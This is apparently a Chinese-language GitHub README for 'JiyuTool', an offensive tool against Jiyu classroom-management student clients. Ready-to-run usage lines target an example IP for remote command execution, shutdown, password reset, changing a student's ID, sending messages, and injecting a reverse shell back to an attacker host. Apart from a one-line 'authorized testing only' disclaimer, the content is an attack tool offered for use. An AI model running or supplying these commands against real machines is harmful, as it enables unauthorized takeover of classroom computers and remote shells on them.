 # JiyuTool

JiyuTool 是一款通过极域特定协议与远程系统通信的工具，支持远程命令执行、关机重启、发送消息、修改ID等功能，还可发起反向Shell连接。

## 功能特性

- 远程执行命令
- 修改学生端 ID
- 重置密码
- 关机与重启控制
- 发送消息
- 发起反向 Shell

## 使用方法

### 环境依赖

- Python 3.6+

### 命令行参数

```
python main.py --ip <目标IP> [--port <目标端口>] <command> [command_options]
```

#### 可用命令

```
# 关机
python script.py --ip 192.168.1.10 power --shutdown

# 重启
python script.py --ip 192.168.1.10 power

# 执行命令
python script.py --ip 192.168.1.10 exec --cmd "whoami"

# 发消息
python script.py --ip 192.168.1.10 message --msg "请保存好你的文件，系统将重启"

# 修改学生ID
python script.py --ip 192.168.1.10 id --tid 12

# 重置密码
python script.py --ip 192.168.1.10 reset --pwd newpass123

# 注入反向shell
python script.py --ip 192.168.1.10 shell --lhost 10.20.73.20
```



## 注意事项

- 仅供授权测试使用！禁止用于非法用途！

